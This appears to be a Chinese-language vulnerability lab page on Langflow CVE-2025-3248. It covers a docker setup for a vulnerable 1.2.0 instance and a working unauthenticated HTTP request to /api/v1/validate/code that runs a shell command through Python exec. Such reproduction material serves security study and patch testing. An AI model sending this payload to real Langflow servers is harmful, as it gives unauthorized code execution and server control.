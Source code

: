 # Langflow 远程代码执行漏洞(CVE-2025-3248)

LangFlow是一个针对LangChain的GUI,它采用了反应流设计,提供了一种轻松的方式,通过拖放组件和聊天框来实验和原型化流程,将llm嵌入到您的应用程序中。2025年4月，互联网上披露CVE-2025-3248 Langflow code 代码执行漏洞，攻击者可在无需登陆的情况下执行代码，控制服务器。

项目地址 https://github.com/langflow-ai/langflow/

影响版本：<1.3.0

参考链接：

- https://www.horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/

## 漏洞环境

执行如下命令启动一个langflow:1.2.0服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:7860/`

![image-20240308152353654](./1.png)

## 漏洞复现

```
POST /api/v1/validate/code HTTP/1.1
Host: 192.168.76.128:7860
Content-Type: application/json
Content-Length: 122

{"code": "def exploit(cmd=exec('raise Exception(__import__(\"subprocess\").check_output(\"id\",shell=True))')):\n\n pass"}
```

![image-20250416224724464](./2.png)

